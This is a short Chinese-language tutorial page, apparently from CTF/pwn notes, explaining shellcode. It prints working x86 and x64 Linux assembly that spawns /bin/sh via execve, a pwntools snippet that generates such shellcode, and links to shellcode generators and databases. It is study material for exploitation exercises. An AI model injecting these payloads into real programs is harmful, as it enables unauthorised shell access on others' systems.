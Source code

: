 # Shellcode

Shellcode 是一小段代码, 在漏洞利用后用于注入到目标程序中执行. 常见的一个功能是获取 shell 因此得名.  

## 编写

```asm
# linux/x86 execve("/bin/sh", 0, 0)
global _start
_start:
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    mov  al, 0xb  ;; execve NR
    int  0x80     ;; syscall
```

```asm
# linux/x64 execve("/bin/sh", 0, 0)
global _start
_start:    
    mov  rbx, "/bin/sh"
    push rbx
    push rsp
    pop  rdi
    xor  esi, esi
    xor  edx, edx
    push 0x3b
    pop  rax
    syscall
```

设置参数并将系统调用的 NR(number) 写入指定寄存器后触发中断/syscall即可. 具体使用方式请参考 [Linux 系统调用](https://publicki.top/syscall.html).  

!!! info "CTF"
    可能限制系统调用的使用, 此时需要编写专门的 shellcode 只通过可用的系统调用完成任务.  

## 生成

- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [MSF](./Metasploit.md) 生成 shellcode.
- 利用 pwntools 生成特定架构和系统的 shellcode.

    ```py
    from pwn import *
    context(log_level = 'debug', arch = 'i386', os = 'linux') # linux/x86
    shellcode = asm(shellcraft.sh())
    ```

## 拓展

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)
- <http://shell-storm.org/shellcode/>
